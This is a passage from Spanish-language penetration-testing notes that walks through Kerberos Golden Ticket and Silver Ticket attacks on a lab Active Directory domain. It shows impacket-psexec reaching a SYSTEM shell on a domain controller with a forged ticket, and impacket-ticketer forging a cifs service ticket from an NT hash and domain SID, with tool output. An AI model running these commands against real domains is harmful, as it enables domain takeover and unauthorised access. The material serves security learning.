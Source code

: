 Lo que estamos haciendo aqui es generar ese `TGT` del usuario `Administrador` con el `hash` del usuario `krbtgt` que obtuvimos.

Ahora lo que vamos hacer es generar un `TGS` a partir de este `TGT` que hemos generado de forma manual del usuario `Administrador` como vimos anteriormente.

```shell
export KRB5CCNAME=/home/kali/Administrator.ccache
impacket-psexec corp.local/Administrator@DC01.corp.local -k -no-pass
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file xefNbHJn.exe
[*] Opening SVCManager on DC01.corp.local.....
[*] Creating service OgZZ on DC01.corp.local.....
[*] Starting service OgZZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Como vemos ha funcionado, sin necesidad de que se nos monte un `TGT`, lo hemos echo de forma manual y funciona perfectamente.

Esto que acabamos de ver es el `Golden Ticket`, pero ahora vamos a realizar la tecnica de `Silver Ticket`, que seria de la siguiente forma:

```shell
impacket-ticketer -nthash 3f6f27ccbcb235da4602454dff0efb47 -domain-sid S-1-5-21-3352250647-938130414-2449934813 -domain corp.local -spn cifs/DC01.corp.local Administrator
```

En este caso esta tecnica es para generar un `Ticket` de un servicio especifico que queremos utilizar en este caso `cifs` bajo el nombre del usuario `Administrador`.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
/usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for corp.local/Administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
```